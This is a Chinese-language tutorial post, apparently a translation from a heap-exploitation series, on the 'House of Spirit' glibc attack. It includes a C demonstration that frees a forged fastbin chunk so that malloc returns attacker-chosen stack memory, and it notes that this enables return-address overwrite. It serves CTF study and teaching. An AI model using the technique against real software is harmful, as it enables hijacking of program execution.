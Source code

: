 ```yaml
---
title: Heap Exploitation系列翻译-13 House of Spirit
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


# House of Spirit

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

House of Spirit 跟其他攻击略有不同, 在某种意义上来说, 它涉及到攻击者在指针释放之前去覆写已有指针. 攻击者可以在内存(堆,栈等处)的任意地方创造一个'伪堆块'并覆写一个指针去指向该伪堆块, 堆块必须通过这种方式进行构造才能通过所有的安全测试. 这其实并不难而且也只涉及到设置`size`和next chunk的`size`. 当伪堆块被释放, 它就会被插入到合适的bin链中(最好是fastbin). 在之后的malloc申请大小跟伪堆块大小一致时便能返回攻击者的伪堆块. 最终结果类似于早先描述的'forging chunks attack'

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploition/files/house_of_spirit.c)):

```c
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);  // 0x40

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  // 0x40

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              // 0x7ffe220c5cb0 address returned from malloc
```

注意, 跟预期一样, 返回的指针在`fake_chunks[0]`之前0x10即16字节处. 这是存储`fd`指针的地址. 这次攻击提供了更多可能的攻击. `victim`指向栈上的内存而非堆段. 通过修改栈上的返回地址, 攻击者可以控制程序的执行.
